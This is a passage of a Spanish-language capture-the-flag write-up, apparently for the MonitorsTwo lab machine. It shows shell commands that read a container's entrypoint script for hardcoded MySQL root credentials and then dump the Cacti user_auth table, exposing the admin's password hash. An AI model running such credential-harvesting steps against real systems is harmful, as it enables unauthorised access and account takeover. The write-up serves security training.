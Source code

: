 Al examinar el script, hemos descubierto las credenciales de la base de datos MySQL.

```bash
root@50bca5e748b0:/# cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi

exec "$@"
```

Nos conectamos a la base de datos `cacti` y listamos todas las tablas disponibles.

```bash
root@50bca5e748b0:/# mysql --host=db --user=root --password=root cacti -e "show tables"
+-------------------------------------+
| Tables_in_cacti                     |
+-------------------------------------+
| [...]                               |
| user_auth                           |
| user_auth_cache                     |
| user_auth_group                     |
| user_auth_group_members             |
| [...]                               |
+-------------------------------------+
```

Listamos todos los registros de la tabla `user_auth` y encontramos las contraseñas de usuarios hasheadas.

```bash
root@50bca5e748b0:/# mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
| id | username | password                                                     | realm | full_name      | email_address          | must_change_password | password_change | show_tree | show_list | show_preview | graph_settings | login_opts | policy_graphs | policy_trees | policy_hosts | policy_graph_templates | enabled | lastchange | lastlogin | password_history | locked | failed_attempts | lastfail | reset_perms |
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
|  1 | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |     0 | Jamie Thompson | admin@monitorstwo.htb  |                      | on              | on        | on        | on           | on             |          2 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 | -1               |        |               0 |        0 |   663348655 |
```